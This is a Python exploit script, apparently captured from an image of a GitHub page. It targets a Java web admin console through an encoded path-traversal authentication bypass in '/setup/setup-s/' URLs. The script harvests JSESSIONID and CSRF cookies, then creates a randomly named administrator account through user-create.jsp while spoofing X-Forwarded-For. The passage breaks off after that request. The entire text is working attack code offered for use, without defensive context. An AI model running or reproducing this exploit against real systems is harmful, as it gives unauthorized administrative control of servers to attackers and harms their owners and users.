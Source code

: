     def exploit(target):
        hack = HackRequests.hackRequests()
        host = target.split("://")[1]
    
        # setup 1: get csrf + jsessionid
        jsessionid = ""
        csrf = ""
    
        try:
            url = f"{target}/setup/setup-s/%u002e%u002e/%u002e%u002e/user-groups.jsp"
    
            headers = {
                "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36",
                "Accept-Encoding": "gzip, deflate",
                "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
                "Connection": "close",
                "Accept-Language": "zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3",
                "DNT": "1",
                "X-Forwarded-For": "1.2.3.4",
                "Upgrade-Insecure-Requests": "1"
            }
            print(f"[..] Checking target: {target}")
            hh = hack.http(url, headers=headers)
            jsessionid = hh.cookies.get('JSESSIONID', '')
            csrf = hh.cookies.get('csrf', '')
    
            if jsessionid != "" and csrf != "":
                print(f"Successfully retrieved JSESSIONID: {jsessionid} + csrf: {csrf}")
            else:
                print("Failed to get JSESSIONID and csrf value")
                return
            
            # setup 2: add user
            username = generate_random_string(6)
            password = generate_random_string(6)
            
            header2 = {
                "Host": host,
                "User-Agent": "Mozilla/5.0 (Windows NT 10.0; WOW64; rv:48.0) Gecko/20100101 Firefox/48.0",
                "Accept-Encoding": "gzip, deflate",
                "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
                "Connection": "close",
                "Cookie": f"JSESSIONID={jsessionid}; csrf={csrf}",
                "Accept-Language": "zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3",
                "DNT": "1",
                "X-Forwarded-For": "1.2.3.4",
                "Upgrade-Insecure-Requests": "1"
            }
    
            create_user_url= f"{target}/setup/setup-s/%u002e%u002e/%u002e%u002e/user-create.jsp?csrf={csrf}&username={username}&name=&email=&password={password}&passwordConfirm={password}&isadmin=on&create=%E5%88%9B%E5%BB%BA%E7%94%A8%E6%88%B7"
            hhh = hack.http(create_user_url, headers=header2)
    